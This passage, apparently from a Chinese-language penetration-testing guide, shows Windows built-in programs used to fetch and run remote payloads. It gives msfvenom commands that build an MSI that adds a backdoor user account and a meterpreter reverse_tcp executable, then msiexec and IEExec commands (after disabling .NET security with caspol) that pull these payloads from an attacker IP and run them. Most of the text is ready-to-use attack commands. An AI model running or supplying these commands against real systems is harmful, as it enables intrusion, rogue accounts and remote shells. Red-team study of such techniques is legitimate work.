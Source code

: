 **9、msiexec**

msiexec 支持远程下载功能，将msi文件上传到服务器，通过如下命令远程执行：

```text
#生成msi包
msfvenom -p windows/exec CMD='net user test abc123! /add' -f msi > evil.msi
#远程执行
msiexec /q /i http://192.168.28.128/evil.msi
```

成功添加了一个test用户：

![](../.gitbook/assets/20200413-9.png)

**10、IEExec**

IEexec.exe应用程序是.NET Framework附带程序，存在于多个系统白名单内。

生成Payload：

```text
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.28.131 lport=4444 -f exe -o evil.exe
```

使用管理员身份打开cmd，分别运行下面两条命令。

```text
C:\Windows\Microsoft.NET\Framework64\v2.0.50727>caspol.exe -s off
C:\Windows\Microsoft.NET\Framework64\v2.0.50727>IEExec.exe http://192.168.28.131/evil.exe
```

![](../.gitbook/assets/20200413-10.png)
